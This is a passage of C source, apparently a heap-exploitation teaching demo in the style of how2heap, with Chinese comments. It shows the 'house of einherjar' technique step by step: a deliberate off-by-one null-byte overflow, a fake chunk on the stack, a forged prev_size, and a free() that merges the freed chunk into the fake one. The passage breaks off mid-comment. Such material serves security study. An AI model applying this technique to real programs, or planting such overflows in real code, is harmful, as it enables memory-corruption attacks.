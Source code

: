 ```c
	printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");
	uint8_t* a;
	uint8_t* b;
	uint8_t* d;
	a = (uint8_t*) malloc(0x38);
	int real_a_size = malloc_usable_size(a);
	printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);
	// create a fake chunk
	printf("\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
	printf("However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
	printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
	printf("(although we could do the unsafe unlink technique here in some scenarios)\n");
	size_t fake_chunk[6];
	fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
	fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
	fake_chunk[2] = (size_t) fake_chunk; // fwd，绕unlink
	fake_chunk[3] = (size_t) fake_chunk; // bck
	fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
	fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0x4f8);
	int real_b_size = malloc_usable_size(b);
	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
	/* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/
	printf("\nb.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0x500) | prev_inuse = 0x501\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	/* VULNERABILITY */
	a[real_a_size] = 0; //改物理相邻的b chunk的size的最后一位为0
	/* VULNERABILITY */
	printf("b.size: %#lx\n", *b_size_ptr);
	printf("This is easiest if b.size is a multiple of 0x100 so you "
		   "don't change the size of b, only its prev_inuse bit\n");
	printf("If it had been modified, we would need a fake chunk inside "
		   "b where it will try to consolidate the next chunk\n");
	// Write a fake prev_size to the end of a
	printf("\nWe write a fake prev_size to the last %lu bytes of a so that "
		   "it will consolidate with our fake chunk\n", sizeof(size_t));
	size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk); //计算大小。free时向后合并的操作利用prev_size来计算上一个chunk在哪。所以我们计算b到fake_chunk的偏移
	printf("Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
	*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size; //然后把chunk b的prev_size写为刚刚计算的偏移（在a这里写是因为分配的chunk的大小较为特殊，prev_size是chunk a的user data的一部分）
	//Change the fake chunk's size to reflect b's new prev_size
	printf("\nModify fake chunk's size to reflect b's new prev_size\n");
	fake_chunk[1] = fake_size; //fake chunk的size也相应地改为刚刚计算的大小
	// free b and it will consolidate with our fake chunk
	printf("Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
	free(b); //free后向后合并，bin里的地址就变为了合并后的地址。因为偏移是精心计算好的，合并后的地址为fake chunk的地址
	printf("Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);
	//if we allocate another chunk before we free b we will need to 
```